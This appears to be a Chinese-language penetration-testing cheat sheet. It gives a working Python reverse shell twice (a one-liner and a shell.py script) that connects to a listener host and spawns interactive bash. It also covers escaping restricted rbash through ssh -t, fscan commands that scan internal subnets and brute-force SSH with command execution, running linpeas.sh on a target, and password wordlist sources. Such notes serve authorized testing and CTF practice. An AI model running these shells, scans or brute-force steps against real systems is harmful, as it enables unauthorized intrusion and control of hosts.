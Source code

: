 命令行直接弹：

```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

创建 `shell.py` 弹，`python shell.py`：

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.1", 1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

### rbash

当获得的是一个残缺的 bash 时，可以 [参考](https://xz.aliyun.com/t/7642)，想办法通过各种软件逃脱 rbash 的限制

1.   `su user`，继承当前环境变量并转成 user；`su - user`，不继承当前环境变量并重新启用 user 的环境变量
2.   登录时逃逸，利用 `ssh -t` 强制启用终端会话（例如 `vim` 这类应用需要一个正常的 tty 交互式终端才能显示，`ssh user@ip 'vim'` 无法启动，而 `ssh -t user@ip 'vim'` 可以正常启动，且退出后会自动中断连接），强制终端会话是为了 `/bin/bash` 可以有一个正常的环境
     1.   `ssh user@ip -t "/bin/bash"`

## fscan

内网扫描，get source and release here：[shadow1ng/fscan](https://github.com/shadow1ng/fscan.git)，需要自己编译或者 [下载](https://github.com/shadow1ng/fscan/releases)，将其放到 `/usr/bin/` 目录下

1.   对某一网段进行全面的扫描，并保存：`fscan -h 192.168.0.1/24 -o result.txt`
2.   扫描，但不爆破、不扫描 poc，减少网络流量：`fscan -h 192.168.0.1/24 -np -nobr -nopoc`
3.   不扫描某个 host：`fscan -h 192.168.0.1/24 -hn 192.168.0.1`
4.   指定 ssh 端口进行 ssh 爆破，并尝试执行命令：`fscan -h 192.168.0.1/24 -m ssh -p 8022 -c whoami`
5.   ssh 爆破，指定输入：`fscan -h 192.168.0.1/24 -pwdf passwords.txt -userf users.txt`
6.   使用代理：`fscan -u http://cloudflare.com -proxy http://127.0.0.1:7890`
7.   指定各种模块：`fscan -h 192.168.0.1/24 -m [module]`

## scripts

### linpeas.sh

一个专门用于检测主机所有可能利用的点的脚本，到 [linpeas.sh](https://linpeas.sh/) 获取，想办法在靶机获取后直接运行即可

### directionaries

1.   [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists.git)
2.   [NS-Sp4ce/Dict](https://github.com/NS-Sp4ce/Dict.git)
3.   [r35tart/RW_Password](https://github.com/r35tart/RW_Password.git)
4.   [crackstation-wordlist-password-cracking-dictionary](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)
